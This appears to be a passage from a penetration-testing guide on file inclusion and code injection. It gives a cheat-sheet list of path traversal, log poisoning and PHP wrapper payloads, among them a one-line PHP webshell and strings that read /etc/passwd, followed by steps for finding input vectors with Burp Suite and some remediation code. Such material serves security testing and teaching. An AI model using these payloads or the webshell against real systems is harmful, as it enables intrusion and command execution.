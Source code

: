 - **Path Traversal Payloads**:
  - `../` (Moves up directory)
  - `..%2f` (URL-encoded traversal)
  - `....//` (Filter bypass)
  - `%c0%af` (Unicode-encoded slash)

- **Log Poisoning Payloads**:
  - `User-Agent: <?php system('whoami'); ?>` (Injects code into logs)
  - `../../var/log/apache2/access.log` (Includes poisoned log file)
  - `../../var/log/nginx/access.log` (Alternative log file)
  - `<?php system($_GET['cmd']); ?>` (Injects webshell code)

- **Wrapper Protocol Payloads**:
  - `php://filter/convert.base64-encode/resource=../../etc/passwd` (LFI base64 output)
  - `data://text/plain,<?php phpinfo(); ?>` (RFI inline code)
  - `expect://whoami` (Command execution via wrapper)
  - `php://input` (Reads POST data)

**Note**: Payloads depend on the server (e.g., PHP, Apache) and configuration (e.g., `allow_url_include` for RFI). Test payloads in URL parameters, form fields, or headers where input is processed.

### 1. Identify Input Vectors

**Objective**: Locate user-controllable inputs that may be processed by the application for code execution or file inclusion.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, URL parameters, or APIs that may process files or code (e.g., `page.php?file=home`).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `file=home`, `input=code`).
3. Inspect responses:
   - Check for file content, PHP errors, or code execution output.
   - Use Developer Tools (`Ctrl+Shift+I`) to search for included files or errors.
4. List input vectors:
   - Document query parameters, form fields, headers, and JSON payloads.

**Example Input Vectors**:
- URL: `http://example.com/page.php?file=home`
- Form: `<input name="script">`
- API: `POST /api` with `{"file": "config.php"}`

**Remediation**:
- Validate inputs with allowlists:
  ```php
  if (!in_array($_GET['file'], ['home', 'about'])) die("Invalid file");
  ```
- Disable dangerous functions:
  ```php
  disable_functions = eval,exec,system,passthru
  ```
